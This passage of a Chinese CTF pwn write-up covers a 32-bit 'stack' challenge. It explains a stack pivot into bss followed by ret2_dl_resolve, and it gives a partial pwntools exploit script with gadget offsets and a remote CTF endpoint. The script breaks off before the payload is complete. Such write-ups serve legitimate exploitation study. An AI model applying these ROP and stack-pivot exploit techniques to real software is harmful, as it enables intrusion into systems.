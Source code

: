 ```asm
.text:08048448                 mov     ecx, [ebp+var_4]
.text:0804844B                 leave
.text:0804844C                 lea     esp, [ecx-4]
.text:0804844F                 retn
```

开始的时候我们有0x14字节的输入，可以布置一次read，但是不足以栈迁移到bss。就是在这里卡住了，开始一直找Gadgets跳过去，换题再回来之后发现不需要这样，直接read的地址改成0x14字节后面的地址，这样可以接力部署gadgets和值，也就是说输入为gadgets+padding+data，gadgets负责栈迁移，后面就是ret2_dl_resolve，这种复杂的东西还是要学会用roputils或者自己写模板脚本。

#### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='i386',os='linux',log_level='debug')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./stack')

if debug:
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')
    p = process('./stack')
    gadgets = [0x3ac5c,0x3ac5e,0x3ac62,0x3ac69,0x5fbc5,0x5fbc6]
else:
    gadgets = [0x3a80c,0x3a80e,0x3a812,0x3a819,0x5f065,0x5f066]
    libc = ELF('./x86_libc.so.6')
    p = remote('f.buuoj.cn',20171)

csu_start = 0x080484a8
csu_end = 0x08048488
def csu(ebx,esi,edi,ebp,retn_addr):
    payload = p32(csu_start)+p32(ebx)+p32(esi)+p32(edi)+p32(ebp)
    return payload

def exp():
    #ebx=call_func
    #esi=1
    #edi=0
    #ebp=arg1
    leave_ret = 0x08048378
    read_got = elf.got['read']
    read_plt = elf.plt['read']
    libc_start_got = elf.got['__libc_start_main']
    bss_base = elf.bss()+0x300

    ret_addr = 0x080482b2
    leave_ret = 0x08048378
    p_ebp = 0x080484ab
    p2_ret = 0x080484aa
    gift = p32(read_plt)+p32(p2_ret)+p32(0)+p32(0x0804a024)+p32(0x500)
    p.send(gift)
    #
    gdb.attach(p,'b* 0x0804844f')
    p.send("a"*0x10+p32(0x0804a024))
    print hex(bss_base)
    #
    dyn_str = 0x804821C
    print hex(dyn_str)
    dyn_sym = 0x80481CC
    print hex(dyn_sym)
    rel_plt = 0x8048298
    print hex(rel_plt)
    #
```